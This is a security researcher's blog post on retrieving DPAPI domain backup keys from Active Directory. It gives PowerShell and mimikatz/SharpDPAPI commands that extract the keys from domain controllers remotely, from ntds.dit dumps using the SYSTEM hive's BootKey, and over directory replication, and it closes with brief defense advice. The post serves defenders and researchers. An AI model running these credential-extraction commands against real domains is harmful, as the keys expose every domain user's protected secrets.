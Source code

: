 ```yaml
---
ref: dpapi-backup-keys
title: 'Retrieving DPAPI Backup Keys from&nbsp;Active Directory'
date: 2015-10-26T22:51:00+00:00
layout: post
lang: en
image: /assets/images/backupkeys_storage.png
permalink: /en/retrieving-dpapi-backup-keys-from-active-directory/
tags:
    - 'Active Directory'
    - DPAPI
    - PowerShell
    - Security
---
```


The Data Protection API (DPAPI) is&nbsp;used by&nbsp;several components of&nbsp;Windows to&nbsp;securely store passwords, encryption keys and&nbsp;other sensitive data. When&nbsp;DPAPI is&nbsp;used in&nbsp;an&nbsp;Active Directory domain environment, a&nbsp;copy of&nbsp;user’s master key is&nbsp;encrypted with&nbsp;a&nbsp;so-called DPAPI Domain Backup Key that&nbsp;is&nbsp;known to&nbsp;all domain controllers. Windows Server 2000 DCs use a&nbsp;symmetric key and&nbsp;newer systems use a&nbsp;public/private key pair. If&nbsp;the&nbsp;user password is&nbsp;reset and&nbsp;the&nbsp;original master key is&nbsp;rendered inaccessible to&nbsp;the&nbsp;user, the&nbsp;user’s access to&nbsp;the&nbsp;master key is&nbsp;automatically restored using the&nbsp;backup key.

<!--more-->

## The&nbsp;Mimikatz Method

Benjamin Delpy has already found a&nbsp;way to&nbsp;extract these backup keys from&nbsp;the&nbsp;LSASS of&nbsp;domain controllers. It is implemented in the `lsadump::backupkeys` mimikatz command and&nbsp;it&nbsp;even&nbsp;works remotely:

![Mimikatz DPAPI Backup Keys](../../assets/images/mimikatz_backupkeys.png)

## DSInternals Implementation

This attack is also implemented in my DSInternals PowerShell module:

```powershell
Get-LsaBackupKey -ComputerName dc01.contoso.com |
    Save-DPAPIBlob -DirectoryPath '.\Output'
```

## SharpDPAPI Implementation

The same sttack technique has also been implemented in [GhostPack](https://github.com/GhostPack):

```cmd
SharpDPAPI.exe backupkey
```

## Key Storage

I have taken Benjamin’s research one step further and&nbsp;I&nbsp;can&nbsp;now&nbsp;extract these keys directly from&nbsp;the&nbsp;Active Directory database, where&nbsp;they are&nbsp;physically stored:

![Backup Key Storage](../../assets/images/backupkeys_storage.png)

The keys are&nbsp;stored in&nbsp;the&nbsp;**currentValue** attribute of&nbsp;objects whose names begin with&nbsp;**BCKUPKEY** and&nbsp;are&nbsp;of&nbsp;class **secret**. The&nbsp;**BCKUPKEY_PREFERRED Secret** and&nbsp;**BCKUPKEY_P Secret** objects actually only contain GUIDs of&nbsp;objects that&nbsp;hold the&nbsp;current modern and&nbsp;legacy keys, respectively.

Furthermore, the&nbsp;currentValue attribute is&nbsp;encrypted using BootKey (aka SysKey) and&nbsp;is&nbsp;never sent through LDAP. After decrypting it, we will get a self-signed certificate with no subject:

![DPAPI Backup Key](/assets/images/dpapi_backup_key.png)

## The&nbsp;Database Dump Method

The **Get-BootKey**, **Get-ADDBBackupKey** and&nbsp;**Save-DPAPIBlob** cmdlets from&nbsp;my [DSInternals PowerShell Module](/en/projects/) can&nbsp;be&nbsp;used to&nbsp;retrieve the&nbsp;DPAPI Domain Backup Keys from&nbsp;ntds.dit files:

```powershell
# We need to get the BootKey from the SYSTEM registry hive first:
Get-BootKey -SystemHiveFilePath 'C:\IFM\registry\SYSTEM'

<#
Output:

41e34661faa0d182182f6ddf0f0ca0d1

#>

# Now we can decrypt the DPAPI backup keys from the database:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Format-List

<#
Output:

Type : LegacyKey
DistinguishedName : CN=BCKUPKEY_7882b20e-96ef-4ce5-a2b9-3efdccbbce28 Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {77, 138, 250, 6...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : PreferredLegacyKeyPointer
DistinguishedName : CN=BCKUPKEY_P Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {14, 178, 130, 120...}
KeyId : 7882b20e-96ef-4ce5-a2b9-3efdccbbce28

Type : RSAKey
DistinguishedName : CN=BCKUPKEY_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {48, 130, 9, 186...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

Type : PreferredRSAKeyPointer
DistinguishedName : CN=BCKUPKEY_PREFERRED Secret,CN=System,DC=Adatum,DC=com
RawKeyData : {62, 106, 197, 177...}
KeyId : b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d

#>

# In most cases, we just want to export these keys to the file system:
Get-ADDBBackupKey -DBPath 'C:\IFM\Active Directory\ntds.dit' `
                  -BootKey 41e34661faa0d182182f6ddf0f0ca0d1 |
    Save-DPAPIBlob -DirectoryPath .\Keys

# New files should have been created in the Keys directory:

(dir .\Keys).Name

<#
Output:

ntds_capi_b1c56a3e-ddf7-41dd-a5f3-44a2ed27a96d.pfx
ntds_legacy_7882b20e-96ef-4ce5-a2b9-3efdccbbce28.key

#>
```

Note that&nbsp;mimikatz would name these files similarly.

## The&nbsp;DRSR Method

The same result can&nbsp;be&nbsp;achieved by&nbsp;communicating with&nbsp;the&nbsp;Directory Replication Service using the&nbsp;**Get-ADReplBackupKey** cmdlet:

```powershell
Get-ADReplBackupKey -Domain 'Adatum.com' -Server LON-DC1 |
    Save-DPAPIBlob -DirectoryPath .\Keys
```

## Defense

I am already starting to&nbsp;repeat myself:

- Restrict access to&nbsp;domain controller backups.
- Be&nbsp;cautious when&nbsp;delegating the&nbsp;*Replicating Directory Changes All* right.

